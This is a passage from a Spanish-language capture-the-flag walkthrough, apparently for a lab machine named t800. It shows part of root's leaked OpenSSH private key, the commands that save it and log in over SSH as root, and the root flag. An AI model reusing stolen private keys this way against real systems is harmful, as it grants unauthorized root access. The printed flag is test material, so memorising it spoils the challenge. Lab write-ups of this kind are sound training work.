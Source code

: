 ```
L99/4JC4VCcmTFi8mVkpK6zf4/M8GQckso0cAyTXT/UhMYnw9fUj4EF8S6/nmxjuMyfQxD
6ewvAde96sKmqNkAAAAJcm9vdEB0ODAwAQI=
-----END OPENSSH PRIVATE KEY-----
```

Veremos que ha funcionado de forma correcta, por lo que haremos lo siguiente:

> Maquina Host

```shell
nano id_rsa

#Dentro del nano
<ID_RSA_ROOT>
```

Lo guardamos y establecemos los permisos necesarios:

```shell
chmod 600 id_rsa
```

Ahora vamos a conectarnos mediante la clave `PEM` de la siguiente forma:

```shell
ssh -i id_rsa root@<IP> -p 800
```

Info:

```
Linux t800 4.19.0-14-amd64 #1 SMP Debian 4.19.171-2 (2021-01-30) x86_64

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Thu Apr  8 08:18:02 2021
root@t800:~# whoami
root
```

Con esto ya seremos `root` por lo que leeremos la `flag` de `root`:

> rootflag.txt

```
hmvtitoroot
```
